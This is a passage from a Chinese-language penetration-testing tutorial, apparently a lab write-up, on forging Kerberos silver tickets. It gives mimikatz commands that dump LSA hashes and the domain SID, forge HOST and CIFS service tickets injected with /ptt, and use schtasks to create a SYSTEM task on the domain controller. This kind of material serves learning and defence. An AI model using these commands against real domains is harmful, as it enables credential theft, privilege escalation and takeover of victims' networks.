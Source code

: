 输入`klist`可以获得

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516084710.png)

这里很明显看到有两个服务，一个`krbtgt`，一个是`host`

### 11.1 伪造Host服务权限---创建计划任务

```powershell
# mimikatz 操作
# 这里不要用管理员权限打开 mimikatz，否则会没有host服务
kerberos::list
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516093121.png)

接下来获取Hash,并且获取SID

```powershell
lsadump::lsa /patch
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516140122.png)

获取了server名称：

> /domain 域的名称
> /dis 域的sid
> /service 指定服务类型
> /ticket(可选) 指定路径保存票据
> /ptt 直接注入内存
> /rc4 域控机器ntlm

```powershell
kerberos::golden /user:test /domain:main.com /sid:S-1-5-21-2214894582-1205818508-3793940241 /target:dc.main.com /rc4:e72477885554476fbc116b63a21f36e2 /service:host /ptt
```

然后就可以创建计划任务：

```powershell
schtasks /create /S dc.main.com /tn "task1" /RU "system" /sc weekly /tr "c:\windows\system32\calc.exe"
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516134921.png)



## 11.2 伪造CIFS服务权限

```powershell
kerberos::golden /user:test /domain:main.com /sid:S-1-5-21-2214894582-1205818508-3793940241 /target:dc.main.com /rc4:e72477885554476fbc116b63a21f36e2 /service:CIFS /ptt
```

![](https://cdn.jsdelivr.net/gh/h0ld1rs/image/image/20220516140940.png)
